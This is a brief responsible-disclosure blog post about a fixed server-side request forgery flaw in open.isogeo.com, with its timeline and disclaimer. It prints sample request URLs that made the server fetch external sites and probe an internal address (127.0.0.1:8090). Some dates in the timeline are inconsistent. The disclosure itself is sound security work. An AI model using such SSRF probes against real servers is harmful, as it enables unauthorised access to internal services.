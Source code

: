 ```yaml
---
layout: post
title:  "SSRF found and fixed in open.isogeo.com"
date:   2022-02-08 19:45:00 MET
author: 'psytester'
---
```


A SSFR vulnerability was resolved in open.isogeo.com using the path `https://open.isogeo.com/map/schema://url`

E.g. this call gave me google France (outside of France)
```
https://open.isogeo.com/map/https://www.google.com
https://open.isogeo.com/map/http://www.google.com
https://open.isogeo.com/map/www.google.com
```

Internal access may also have been possible
```
https://open.isogeo.com/map/127.0.0.1:8090
{"error":{"errno":"EACCES","code":"EACCES","syscall":"connect","address":"127.0.0.1","port":8090}}

https://open.isogeo.com/map/unknownhost
after some timeout:
{"error":{"errno":"ENOTFOUND","code":"ENOTFOUND","syscall":"getaddrinfo","hostname":"unknownhost"}}
```

Now it's fixed, response is only:
```
{"link":"/map"}
```

# Timeline

2022-01-05 Report sent, but I got `Your email was rejected due to spam classification.`<br>
2022-01-09 Report sent to CERT France<br>
2022-01-12 Response from isogeo about my finding<br>
2021-01-xx Issue was resolved without further reply<br>
2021-02-08 Disclosure as blog post<br>

# TL;DR

HowTo vulnerability hunting?<br>
It was an accident ;-)<br>
I searched something different for some opendata web service and found an opendata service in France.<br>
I saw in browser F12 Dev console an URL call for an image, which was no redirect by browser.<br>
https://open.isogeo.com/map/getImage/https://www.......<br>
I catched this SSRF just by copy & paste error without part /getImage/.


# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2022 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
